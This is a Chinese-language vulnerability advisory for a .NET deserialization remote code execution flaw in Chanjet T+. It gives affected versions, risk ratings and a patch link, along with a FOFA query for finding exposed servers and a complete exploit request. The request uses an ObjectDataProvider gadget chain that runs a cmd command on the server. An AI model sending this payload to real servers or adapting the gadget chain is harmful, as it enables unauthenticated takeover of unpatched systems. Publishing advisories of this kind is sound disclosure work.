


---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 关于畅捷通T+ Ufida.T.DI.UIP.RRA.RRATableController 反序列化RCE漏洞预警

# 漏洞描述

畅捷通 T+ /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx接口存在.net反序列化漏洞，未经过身份认证的攻击者可以通过构造恶意的序列化请求在目标服务器上执行任意命令。

# 影响范围

畅捷通 T+ 13.0 畅捷通 T+ 16.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="畅捷通-TPlus"

POC/EXP：

GET /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 127.0.0.1:8888
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c pwd > haha.txt"
       }
    }
  }
}

# 修复方案

**官方修复：**

目前官方已发布补丁更新，建议受影响用户尽快安装。

T+ 16.000.000.0283 及以上补丁包：

https://www.chanjetvip.com/product/goods/detail?id=6077e91b70fa071069139f62

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
